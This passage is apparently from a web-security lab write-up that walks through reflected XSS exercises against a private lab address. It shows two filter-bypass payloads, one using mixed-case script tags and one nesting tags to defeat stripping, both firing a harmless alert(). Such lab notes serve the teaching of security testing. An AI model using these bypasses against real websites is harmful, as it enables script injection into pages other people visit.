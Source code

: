 `172.16.219.145/xss/example2.php?name=hacker`
- developer attempts to block `<script>`
### Payload

`?name=<sCrIpt>alert('XSS')</SCRipt>`
- changing some chars to uppercase bypasses filter

!<img src="https://raw.githubusercontent.com/ryancranie/webappsec/refs/heads/main/_img/Pasted%20image%2020250413134439.png" width="600"/>

---

## Example 3 - URL Strip

`172.16.219.145/xss/example3.php?name=hacker`
- the site strips `<script>` from the URL

### Payload

`?name=<<script>script>alert('XSS')<</script>/script>`

- the site removes `<script>` from `<<script>script>`
	- leaving `<script>`
